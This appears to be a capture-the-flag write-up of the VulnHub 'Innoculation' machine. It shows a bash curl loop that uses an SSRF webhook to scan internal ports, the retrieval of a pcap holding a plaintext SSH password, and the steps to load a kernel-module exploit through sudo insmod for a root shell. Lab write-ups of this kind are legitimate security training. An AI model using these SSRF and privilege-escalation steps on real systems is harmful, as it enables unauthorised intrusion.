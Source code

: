 ```yaml
---
layout: post
title: Innoculation writeup
date: 2019-09-12 8:00
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-2,331/">Innoculation</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap

![](images/inn/nmap.png)

We can see only two ports are open. Let's start our enumeration with HTTP service.

***

## HTTP

If we visit the website we can see a simple text field which accepts `https` URLs.

![](images/inn/website.png)

I tried including lot of URLs but none seemed to bear anything useful. Then [@theart42](https://twitter.com/theart42) told me that I should use that webhook as a port scanner for internal system. He also told me to use `burp suite's` intruder for this. So I captured the requests in burp and prepared the burp intruder.

For payload position I only changed the port number.

![](images/inn/position.png)

For Payload I used port numbers from `1-65535`. If you don't have that you can just generate this by simple python code.

```python
file = "port-num.txt"
with open(file, 'w') as f:
       for i in range(1,65536):
           f.write(str(i))
           f.write("\n" )
```
This code will give you a file named `port-num.txt` that will have all the port numbers. Now just load it in the payload section and start the attack.
But the problem was that attack was very slow so I decided to use make a bash script that will do the same work for us.

```bash
for x in {1..65535};
    do cmd=$(curl -so /dev/null -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:${x}" -w '%{size_download}')
    if [ $cmd != 0 ]; then
        echo "Open port: $x"
    fi
done
```

This script will output all the ports that doesn't return content-length equal to 0. Scirpt will also take some time but it will be much lesser as compared to burp suite.

![](images/inn/script.png)

So port `80` and `9999`are open. On port 80 I got `bad request` but on port `9999` I could see some directory typed output.

![](images/inn/9999.png)

I downloaded that `dump.pcap` via curl by running:

```bash
➜ curl -X POST http://192.168.56.126/testhook.php --data "handler=http://2130706433:9999/dump.pcap" --output dump.pcap
```

That file didn't had much data only few request and one of them had the password.

![](images/inn/password.png)

`maynard:Js&S_uFJgg~YM4_g`

**NOTE**: the url `/pass4maynard` gives away the username.

I used these credentials to login via SSH and get the `user.txt`

***

## Privilege Escalation

I ran my enumeration script but didn't found anything good.
Then I checked for the `sudo` rights and there were some for `/sbin/insmod` and `/sbin/rmmod` and both of them were linked to `/bin/kmod`

![](images/inn/sudo-right.png)

I googled them and found an exploit for it and found [ntfs-3g (Debian 9) - Local Privilege Escalation](https://www.exploit-db.com/exploits/41240)

There are few changes that you might have to do in that exploit. In the `makefile` section copy paste:

```
obj-m += cve_2017_0358.o

all:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) modules

clean:
    make -C /lib/modules/4.15.0-58-generic/build M=$(PWD) clean
```

also make sure you are using `ubuntu 18.04` because other OS might not have those headers. We are doing this because because there is no `make` on the vitim machine. And that header has to be changed because the exploit is only for debian 9.

If everything worked fine then you've have a `cve_2017_0358.ko`. Transfer that to machine and run `sudo insmod ./cve_2017_0358.ko` that will make a `suid` in `/tmp` then you can get root shell using `./r00t -p`.

![](images/inn/root-shell.png)

Then get the root flag.

![](images/inn/root.png)

***

This was really pretty awesome machine with really great foothold and an amazing privelege escalation.

Thanks to [@zayotic](https://twitter.com/zayotic/). Also thanks to [@theart42](https://twitter.com/theart42) for helping me out.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

